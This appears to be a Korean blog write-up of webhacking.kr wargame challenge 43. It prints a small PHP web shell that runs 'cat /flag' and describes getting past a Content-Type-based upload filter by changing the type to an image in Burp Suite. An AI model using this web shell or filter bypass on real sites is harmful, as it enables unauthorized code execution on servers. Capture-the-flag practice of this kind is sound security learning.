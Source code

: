 ```yaml
---
title: "[webhacking.kr] 43번 문제 풀이[php]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - php
toc: true
toc_sticky: true
toc_label: "43번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 43번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152746083-5465d4d4-cfe4-4381-ab29-6f1f937a9e3c.png)

  php 파일을 올려서 웹쉘을 실행 시키면 됩니다.


# 문제 풀이
  우선 웹쉘 파일은 다음과 같이 작성했습니다.

  ```php
# test.php
<?php
system("cat /flag");
?>
  ```

  그리고 해당 파일을 업로드 하면 다음과 같이 필터링 됩니다

  ![image](https://user-images.githubusercontent.com/33647663/152747734-f39de8c9-5230-4322-a3f6-66659c30b514.png)

  필터링이 확장자 기반 필터링인지, 아니면 Content-type 기반 필터링인지 확인해 본 결과 Content-type 기반 필터링 이었습니다. 이미지 파일은 정상적으로 업로드 되기 때문에 파일을 업로드 할때 burp suite로 content-type만 이미지로 변경해 주면 됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/152748609-fba37729-b512-4cc3-ac07-7b903ac3d856.png)

  ![image](https://user-images.githubusercontent.com/33647663/152748434-ffc49103-226d-4873-9c1a-17394a6cda5f.png)

  해당 경로로 접근 해보면 다음과 같이 php파일이 실행되며 플래그를 획득할 수 있습니다.

  ![image](https://user-images.githubusercontent.com/33647663/152748670-44abf44f-6e93-43e4-ae08-4030f8c42157.png)

  



